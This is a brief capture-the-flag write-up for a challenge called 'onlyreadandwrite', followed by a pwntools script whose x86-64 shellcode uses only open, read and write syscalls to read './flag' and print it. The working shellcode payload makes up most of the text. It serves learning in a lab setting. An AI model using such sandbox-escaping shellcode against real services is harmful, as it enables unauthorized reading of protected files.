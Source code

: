 # onlyreadandwrite
In this challenge the program takes as input your shellcode and execute it. The constraint is that you can use only read, write and open.. so no shell to print the flag:
```python
code="""
/* open */
mov rdi, rax
add rdi, 82
mov rax, 0x2
mov rdx, 0
mov rsi, 0
syscall
mov rbx, rax /* fd */
/* read */
mov rsi, rdi
add rsi, 88
mov rdi, rbx
mov rdx, 0x2a
mov rax, 0x0
syscall
/* write */
mov rdi, 1
mov rax, 0x1
mov rdx, 0x2a
syscall
"""

shellcode=asm(code)
print(len(shellcode))
payload=shellcode+b"./flag"
r.send(payload)  
r.interactive()
```